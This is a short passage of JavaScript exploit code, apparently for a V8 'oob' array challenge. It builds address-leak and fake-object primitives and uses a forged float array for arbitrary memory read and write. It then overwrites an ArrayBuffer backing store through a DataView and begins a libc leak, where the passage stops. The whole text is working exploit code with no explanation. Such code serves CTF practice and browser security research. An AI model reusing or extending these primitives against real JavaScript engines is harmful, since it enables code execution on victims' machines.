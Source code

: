 ```JavaScript


// arbitary read and write
function get_addr( target_obj ) {
    obj_list[0] = target_obj;
    obj_list.oob(float_map);
    let res = f2i(obj_list[0]) - 1n;
    obj_list.oob(obj_map);
    return res;
}
function get_obj( target_addr ) {
    float_list[0] = i2f(target_addr + 1n);
    float_list.oob(obj_map);
    let res = float_list[0];
    float_list.oob(float_map);
    return res;
}

var fake_float_array = [
    float_map, 
    i2f(0n), 
    i2f(0xdeadbeefn), 
    i2f(0x400000000n),
    4.3, 
    4.3
];
var fake_array_addr = get_addr(fake_float_array);
var fake_elements_addr = fake_array_addr - 0x30n;
var fake_obj = get_obj(fake_elements_addr);

function arb_read( target_addr ) {
    fake_float_array[2] = i2f(target_addr - 0x10n + 1n);
    let res = f2i(fake_obj[0]);
    console.log("[SUCCESS] data from 0x" + hex(target_addr) + " is: 0x" + hex(res));
    return res;
}
function arb_write( target_addr, data ) {
    fake_float_array[2] = i2f(target_addr - 0x10n + 1n);
    fake_obj[0] = i2f(data);
    console.log("[SUCCESS] written to 0x" + hex(target_addr) + " with: 0x" + hex(data));
}

// test_demos
// var a = [0.1, 0.2, 0.3, 1.0, 4.3];
// var test_addr = get_addr(a) - 0x18n;
// %DebugPrint(a);
// arb_write(test_addr, 0xdeadbeefn);
// console.log(a[2]);
// %DebugPrint(a);
// %SystemBreak();

var data_buf = new ArrayBuffer(8);
var data_view = new DataView(data_buf);
var buf_backing_store_addr = get_addr(data_buf) + 0x20n;
function writeDataview(addr,data){
    arb_write(buf_backing_store_addr, addr);
    data_view.setBigUint64(0, data, true);
    console.log("[*] write to : 0x" +hex(addr) + ": 0x" + hex(data));
}

// leak libc
var a = [0.1, 0.2, 0.3, 1.0, 4.3];
var start_addr = get_addr(a);
```